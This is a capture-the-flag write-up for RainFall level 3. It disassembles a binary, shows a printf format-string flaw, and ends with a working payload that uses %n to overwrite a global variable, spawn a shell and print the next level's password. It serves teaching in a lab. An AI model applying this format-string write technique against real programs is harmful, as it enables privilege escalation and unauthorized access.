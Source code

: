 # Level 3

- Once logged in, you will see a binary `level3`

```
[???] $ ssh level3@localhost -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level3@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
level3@RainFall:~$ ls
level3
```

let's run this and see what this does
```
level3@RainFall:~$ ./level3

```

okay, this one does the same behavior as level2

```
level3@RainFall:~$ ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
level3@RainFall:~$
```

Now let's take a look at the binary

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

take a look at v

```
Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
```

On line <+59>, if a value stored in eax is stored 0x40 is not equal, it will jump to <v+116>, otherwise `fwrite` and `system` function will be executed.

below are the strings stored in the address relavent to the `fwrite` and `system`
```
gdb-peda$ x/s 0x8048600
0x8048600:       "Wait what?!\n"
gdb-peda$ x/s 0x804860d
0x804860d:       "/bin/sh"
```

In order to execute, a `format string vulnerability` will be used, as the function `printf` is used.
But what is `format string vulnerability` and why all of the sudden `printf` is mentioned?

- https://www.youtube.com/watch?v=0WvrSfcdq1I (nees to write)


on line <+54>, we can see the value `0x40` is compared with the valune on the address `0x804988c`, the variable `m`

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
0x0804988c  m
```

and if only format string is passed, it causes the segmentation fault

```
level3@RainFall:~$ ./level3
%s
Segmentation fault (core dumped)
```

what if we pass `%x` into the input?

```
level3@RainFall:~$ ./level3
%x
200
```

as explained from above, if format string is passed into the variable, we can easily get the address of the stack

```
level3@RainFall:~$ echo "%x %x %x %x" | ./level3
200 b7fd1ac0 b7ff37d0 25207825
```

The goal of this level is to find a offset where we reach the address of the variable we want to modify, so we need to see in which address our buffer is wrote

```
$ echo "AAAA %x %x %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
````

we can see the offset of AAAA is 4, but noe we need to change this to the address of `m`

lastly, we just want to change the content of the variable m. Remember, the global variable m needs to have a size of 64

```
address of m : 4 bytes
pad of arbitrary data : 60 bytes
modifier %n
```

level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' ; cat -) | ./level3

```

�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

